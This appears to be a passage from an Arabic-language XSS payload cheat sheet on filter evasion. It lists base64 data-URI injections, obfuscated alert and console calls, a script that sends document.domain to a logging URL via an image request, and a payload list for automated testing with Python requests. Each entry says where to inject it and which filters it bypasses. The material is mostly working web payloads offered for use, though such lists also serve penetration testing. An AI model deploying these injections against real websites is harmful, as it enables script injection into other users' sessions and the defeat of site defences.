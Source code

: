 - **الحقن**: `data:text/html;base64,PHNjcmlwdD4oJ2FsJysnZXJ0JikoJ1hTUycpPC9zY3JpcHQ+`
  - **الإدخال**: أدخل في حقل: `<a href="data:text/html;base64,PHNjcmlwdD4oJ2FsJysnZXJ0JikoJ1hTUycpPC9zY3JpcHQ+">اضغط</a>`
  - **كيف يعمل**: يشفر `<script>('al'+'ert')('XSS')</script>` بـ Base64.
  - **متى يُستخدم؟**: لتجنب فلاتر URLs المشفرة.

#### ي. حقن بدون تنبيهات
{ #XSS_with_out_alret / }
تأكيد التنفيذ بدون تنبيهات باستخدام شيفرة معقدة.
- **الحقن**: `<script>console['log']('XSS')</script>`
  - **الإدخال**: أدخل في تعليق: `<script>console['log']('XSS')</script>`
  - **كيف يعمل**: يستخدم `console['log']` بدلاً من `console.log`.
  - **متى يُستخدم؟**: لتجنب فلاتر تحظر التنبيهات.
- **الحقن**: `<script>('cons'+'ole')['log']('XSS: ' + document.domain)</script>`
  - **الإدخال**: أدخل في حقل: `<script>('cons'+'ole')['log']('XSS: ' + document.domain)</script>`
  - **كيف يعمل**: يقسم `console` ويستخدم `log`.
  - **متى يُستخدم؟**: لتجنب فلاتر متقدمة.
- **الحقن**: `<script>new Image().src='http://localhost/log?c='+document['domain']</script>`
  - **الإدخال**: أدخل في URL: `https://example.com/search?query=<script>new Image().src='http://localhost/log?c='+document['domain']</script>`
  - **كيف يعمل**: يرسل النطاق باستخدام `document['domain']`.
  - **متى يُستخدم؟**: لتأكيد التنفيذ دون تنبيهات.
- **الحقن**: `<script>document['title']='XSS'</script>`
  - **الإدخال**: أدخل في نموذج: `<script>document['title']='XSS'</script>`
  - **كيف يعمل**: يغير العنوان باستخدام `document['title']`.
  - **متى يُستخدم؟**: لتأكيد التنفيذ بصريًا.
- **الحقن**: `<script>document['body']['style']['background']='red'</script>`
  - **الإدخال**: أدخل في تعليق: `<script>document['body']['style']['background']='red'</script>`
  - **كيف يعمل**: يغير لون الخلفية عبر سلسلة خصائص.
  - **متى يُستخدم؟**: لتأكيد التنفيذ بتغيير بصري.

### 2. الحقن للأتمتة
تُستخدم هذه الحقن مع سكربتات (مثل Python مع مكتبة `requests`) لأتمتة اختبار مجموعة من الحقن المعقدة وتحليل الاستجابات. الهدف هو تسريع العملية عند وجود فلاتر متعددة.

#### أ. إعداد قائمة الحقن
- **المحاولات**:
  - إنشاء قائمة بالحقن المعقدة (مثل تلك في القسم اليدوي).
  - مثال قائمة:
    ```
    <script>('al'+'ert')('XSS')</script>
    <script>\u0061lert('XSS')</script>
    <script>eval('\x61lert(\'XSS\')')</script>
    <img src=x onerror=('al'+'ert')('XSS')>
    <svg onload=window['alert']('XSS')>
    javascript:Function('alert("XSS")')()
    ```
- **كيف يعمل**:
  - يتم إرسال كل حقنة على حدة باستخدام طلب HTTP (GET أو POST).
  - يتم تحليل الاستجابة (مثل رمز الحالة، طول الصفحة، أو نص معين) لتحديد النجاح.
- **متى يُستخدم؟**:
  - عند الحاجة لاختبار عدد كبير من الحقن بسرعة.
